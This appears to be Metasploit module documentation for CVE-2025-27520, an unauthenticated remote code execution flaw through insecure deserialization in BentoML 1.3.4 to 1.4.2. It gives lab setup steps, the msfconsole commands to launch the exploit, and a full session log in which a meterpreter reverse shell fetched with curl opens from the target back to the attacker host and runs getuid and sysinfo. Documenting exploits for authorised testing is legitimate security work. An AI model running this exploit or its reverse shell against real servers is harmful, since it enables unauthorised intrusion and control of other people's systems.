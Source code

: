 ## Vulnerable Application

A Remote Code Execution (RCE) vulnerability caused by insecure deserialization has been identified in the v1.4.2 of BentoML.
It allows any unauthenticated user to execute arbitrary code on the server.

The vulnerability affects:

    * 1.3.4 <= BentoML < 1.4.3

This module was successfully tested on:

    * BentoML 1.4.2 installed on Ubuntu 24.04


### Installation

1. `pip install -U bentoml`

2. Define APIs in a service.py file:

```python3
from __future__ import annotations

import bentoml


@bentoml.service(
        resources={"cpu": "2"}
        )
class Summarization:
    @bentoml.api(batchable=True)
    def summarize(self, texts: list[str]) -> list[str]:
        return texts

```

3. `bentoml serve --host 0.0.0.0`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/bentoml_rce_cve_2025_27520`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/bentoml_rce_cve_2025_27520
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/bentoml_rce_cve_2025_27520) > options

Module options (exploit/linux/http/bentoml_rce_cve_2025_27520):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    3000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE    true             yes       Attempt to delete the binary after execution
   FETCH_FILELESS  none             yes       Attempt to run payload without touching disk by using anonymous handles, requires Linux ≥3.17 (for Python variant also Python ≥3.8 (Accepted: none, bas
                                              h, python3.8+)
   FETCH_SRVHOST                    no        Local IP to use for serving payload
   FETCH_SRVPORT   8080             yes       Local port to use for serving payload
   FETCH_URIPATH                    no        Local URI to use for serving payload
   LHOST                            yes       The listen address (an interface may be specified)
   LPORT           4444             yes       The listen port


   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      aNHnUjyAfXo      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/bentoml_rce_cve_2025_27520) > run lhost=192.168.56.1 rhost=192.168.56.16
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 1.4.2 detected, which is vulnerable.
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:32880) at 2025-04-15 22:29:18 +0900

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer     : 192.168.56.16
OS           : Ubuntu 24.04 (Linux 6.8.0-56-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
